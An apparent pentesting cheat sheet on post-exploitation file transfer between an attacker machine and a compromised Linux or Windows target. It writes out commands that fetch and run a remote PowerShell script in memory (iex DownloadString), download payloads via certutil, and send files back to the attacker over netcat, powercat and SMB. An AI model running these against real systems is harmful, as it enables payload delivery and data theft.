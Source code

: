 ```yaml
---
title: Transfering Files
category: Post Exploitation
order: 7
---
```


In this section I’m going to enumerate difference methods to transfer files such us exploits or outputs of some scripts from our attacker machine to the target and viceversa.

In order to perform our work we have the need of transfer some files and this post collects some of this methods. Let’s see, these are some possibilities of environment that we can find during our audits.

# Linux 📤 to Linux 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
php -S 0.0.0.0:port
ruby -run -e httpd . -p port
busybox httpd -f -p port
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
axel -a -n 20 -o file.name https://ip-addr:port/filen.name

#Freebsd
fetch -o file.name -q -R http://ip-addr:port/file.name
```

## Netcat / Socat

There are more ways with different protocols or programs to transfer our files:

```bash
nc -lp port > file.name
sudo socat TCP4-LISTEN:port,fork file:file.name
```

And on the target:

```bash
nc -w 3 ip-addr port < file.name
sudo socat TCP4:ip-addr:port file:file.name,create
```

## FTP (File Transfer Protocol)

First we need to start our ftp server, in this case I will use the Python module **pyftpdlib**, that allows you to set up our ftp server very quickly. To install you run the following command:

```bash
sudo apt-get install python-pyftpdlib
```

And start the **server**:

```bash
python -m pyftpdlib -p 21
```

Finally you can download the file on the **target** with:

```bash
wget ftp://ip-addr/file.name [--ftp-user=user] [--ftp-password=password]
axel -a -n 20 -o file.name ftp://ip-addr:port/filen.name
```

## Base64 Encoding

This is not the best solution beause you will need to Copy & Paste the output, and if you need to transfer a big file could be so tedious. Btw this are the commands:

```bash
base64 file.name
```

Copy the result and paste on your machine inside some quotes:

```bash
base64 -d "ZmxhZ3tINGNrMW5nTjB0ZXN9Cg==" > file.name
```

# Linux 📤 to Windows 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
```

And download our files with **Windows** basics on the **target**:

### Via CMD:

```bash
certutil -urlcache -f "http://ip-addr:port/file.name" file.name
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Via Powershell:

```bash
(New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Import Powershell Script without storing in memory

```
iex (New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/file.ps1')
```

## SMB

Server Message Block (SMB) is a network protocol that allows us share files, printers, etc, between nodes that are Microsoft Windows.

To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
python smbserver.py NAME FOLDER
```

And simply copy the file in the share volume to the target:

```bash
copy \\ip-addr\NAME\file.name .\file.name
```

Maybe there are some others ways to transfer files between Linux and Windows, but with these methods is more than enough to do our job!

# Windows 📤 to Linux 📥

This section will be similar to previous one.

## HTTP

If the target have python installed you can start the **server** in the same way:

_(Be careful on windows the python script in python2.7 is `http.server` and not `SimpleHTTPServer`)_

```bash
python -m http.server
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
```

## SMB

In that case the **smb server** will also start on the attacker's machine (Linux). To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket):

```bash
python smbserver.py NAME FOLDER
```

But the differece will be the order of copy arguments:

```bash
copy .\file.name \\ip-addr\NAME\file.name
```

## Powercat

Powercat is essentially the powershell version of netcat. First need to install in yout kali Machine to download the script:

> **Installation**: sudo apt install powercat

Then you will find the script in the following directory:

* `/usr/share/windows-resources/powercat/powercat.ps1`

Onced transfered the script and imported the module, start the listener on the kali

```
nc -lp port > file.name
```

And execute the following command to send the desired file.

```
powercat -c ip-addr -p port -i file.name
```

# References:

* [https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
* [https://guide.offsecnewbie.com/transferring-files](https://guide.offsecnewbie.com/transferring-files)
* [https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
